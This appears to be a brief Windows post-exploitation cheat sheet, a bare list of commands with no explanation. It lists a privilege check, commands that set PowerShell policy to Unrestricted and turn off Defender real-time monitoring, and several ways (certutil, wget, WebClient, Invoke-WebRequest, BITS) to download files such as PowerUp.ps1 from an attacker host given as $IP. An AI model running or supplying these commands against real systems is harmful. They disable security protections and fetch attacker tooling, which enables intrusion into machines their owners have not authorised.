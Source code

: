 # Command line
whoami /priv  



# Powershell
Get-ExecutionPolicy    
Set-ExecutionPolicy Unrestricted   
Set-MpPreference -DisableRealtimeMonitoring $true  


# File Transfer  
certutil.exe -urlcache -split -f "http://$IP/file.bat" file.bat   
powershell -c wget "http://$IP/file.exe" -outfile "file.exe"   

powershell "(New-Object System.Net.WebClient).DownloadFile('$IP','$PORT')"   

powershell Invoke-WebRequest -Uri http://$IP:$PORT/PowerUp.ps1 -OutFile C:\Users\out   

BITS (Background Intelligence Transfer Service)   
powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://$IP:$PORT/file.bat -Destination C:\   

